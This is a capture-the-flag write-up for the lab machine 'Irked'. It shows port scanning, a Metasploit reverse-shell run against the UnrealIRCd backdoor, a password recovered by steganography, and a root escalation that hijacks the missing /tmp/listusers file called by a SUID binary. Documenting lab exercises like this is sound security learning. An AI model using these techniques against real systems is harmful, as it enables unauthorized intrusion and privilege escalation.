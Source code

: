 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Irked
- Description: Irked is a pretty simple and straight-forward box which requires basic enumeration skills. It shows the need to scan all ports on machines and to investigate any out of the place binaries found while enumerating a system.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesnt have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46182/tcp6  status
|   100024  1          57619/udp6  status
|   100024  1          57900/tcp   status
|_  100024  1          60579/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
57900/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

UnrealIRCd is vulnerable to RCE, using Metasploit I should be able to get a shell relatively quickly:

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.117:47154) at 2024-01-19 18:01:56 -0500

whoami
ircd
```

## Privilege Escalation

Doing some intial enum didn't find anything so I went to the home directory of the other user and looked for interesting files:
```bash
ircd@irked:/home/djmardov$ find . 
find . 
.
./.dbus
find: `./.dbus': Permission denied
./.profile
./.bash_history
./.ssh
find: `./.ssh': Permission denied
./Downloads
./Documents
./Documents/user.txt
./Documents/.backup
./.gnupg
find: `./.gnupg': Permission denied
./Desktop
./.cache
find: `./.cache': Permission denied
./.gconf
find: `./.gconf': Permission denied
./.local
find: `./.local': Permission denied
./.ICEauthority
./Music
./Public
./.config
find: `./.config': Permission denied
./.bash_logout
./.bashrc
./user.txt
./Videos
./Pictures
./Templates
./.mozilla
find: `./.mozilla': Permission denied
```

I can see here there is a .backup file in Documents, let's read it:
```bash
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

This is interesting, it says it is a steg pw, let me check if I saw an image somewhere:

![](assets/images/2024-01-19-irked-writeup-image-1.png)

On the webpage! Let's download this image and extract whatever data is in there:

```bash
HTB steghide extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".
➜  HTB cat pass.txt 
Kab6h+m+bbp2J:HG
```

Now I can su into djmardov:
```bash
ircd@irked:/home/djmardov/Documents$ su djmardov
su djmardov
Password: Kab6h+m+bbp2J:HG
```

I check the suid binary and I see some odd behavior:

```bash
djmardov@irked:/var$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
djmardov@irked:/var$ ls -la /usr/bin/viewuser
ls -la /usr/bin/viewuser
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
djmardov@irked:/var$ /usr/bin/viewuser
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-01-19 17:59 (:0)
sh: 1: /tmp/listusers: not found
djmardov@irked:/var$ cd /tmp/     
cd /tmp/
djmardov@irked:/tmp$ cp /bin/sh /tmp/listusers
cp /bin/sh /tmp/listusers
djmardov@irked:/tmp$ /usr/bin/viewuser
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-01-19 17:59 (:0)
# whoami
root
```

It runs a command called /tmp/listusers but it doesn't exist, so if I copy /bin/sh and execute I should be root!

## Beyond Root

the intial access was CTFy however its realistic, vulnerable IRC with good passwords, just the steg was dumb. Update IRC and change passwords.

For priv esc I went down a few rabbit holes because I didn't recognize /usr/bin/viewuser as standing out. If I took a closer look sooner I woulda had it. 

best,
gerbsec